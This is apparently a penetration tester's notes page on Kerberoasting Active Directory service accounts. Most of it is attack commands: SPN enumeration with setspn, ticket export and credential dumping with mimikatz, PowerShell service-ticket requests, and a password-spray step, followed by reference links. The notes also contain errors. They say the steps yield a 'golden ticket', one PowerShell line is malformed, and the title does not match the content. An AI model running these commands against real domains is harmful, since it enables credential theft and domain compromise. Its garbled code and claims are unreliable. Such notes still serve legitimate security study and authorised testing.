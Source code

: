 # Living off the Land

## 01 - Conditions

When SPN service accounts like SQLService, iis_svc, MSSQL_SVC, etc. With two of the following conditions in order to achieve this:

1. It must be part of the **"Domain Admins"** group member.
2. Has **weak passwords** when the **Kerberos 5, etype 23, TGS-REP** hash type is crackable due to those reasons (refer to [[Tactics && Techniques && Procedures (TTPs) Phases/Initial Access/Password Cracking/Offline/JTR#^0c9a3c|JTR]] or [[Hashcat#^87baa5|Hashcat]] section **under Offline Password Cracking**).

## 02 - Enumeration

### 2.1 - Command Prompt

```
C:\> setspn -t <domain_name> -q */*

C:\> setspn -t <domain_name> -q */* | findstr SQL

mimikatz # kerberos::list /export

mimikatz # sekurlsa::logonpasswords
```

## 2.2 - Powershell

```
PS C:\> Add-Type -AssemblyName System.IdentityModel

PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/<FQDN>'

PS C:\> klist
```

You'll get a golden ticket

`mimikatz # kerberos::list /export`

`$ cat enumerateADpassword.ps1`

---

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"
$SearchString = "$PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "<username>", "<password>")
```

`PS C:\> .\Spray-Password.ps1 -Pass <password> -Admin`

Right-Click > CTRL + Right-Click > Run as different user

`mimikatz # sekurlsa::logonpasswords`

---
## References

### Active Directory Security

- [Active Directory Security: SPNs](https://adsecurity.org/?page_id=183)

- [Active Directory Security Risk #101: Kerberos Unconstrained Delegation (or How Compromise of a Single Server Can Compromise the Domain)](https://adsecurity.org/?p=1667)

### Mubix

- [Malicious.link: Kerberoast Part 1](https://room362.com/posts/2016/kerberoast-pt1/)

- [Malicious.link: Kerberoast Part 2](https://room362.com/posts/2016/kerberoast-pt2/)

- [Malicious.link: Kerberoast Part 3](https://room362.com/posts/2016/kerberoast-pt3/)

### Pentestlab

- [Pentestlab Blog: SPN Discovery](https://pentestlab.blog/2018/06/04/spn-discovery/)

- [Pentestlab Blog: Kerberoast](https://pentestlab.blog/2018/06/12/kerberoast/)

### Red Team Notes

- [Red Team Notes: Active Directory Kerberos Abuse Child Domain Domain Admin to Enterprise Admin In Parent Domain](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)

- [Red Team Notes: Active Directory Kerberos Abuse T1208-Kerberoasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)

### Hacking Articles

- [Hacking Articles: Deep Dive Into Kerberoasting Attack](https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/)

### Certcube

- [Certcube: Kerberoasting Simplified Attack and Defense](https://blog.certcube.com/kerberoasting-simplified-attack-and-defense/)

### XPNSec

- [XPNSec: Kerberos AD Attacks - Kerberoasting](https://blog.xpnsec.com/kerberos-attacks-part-1/)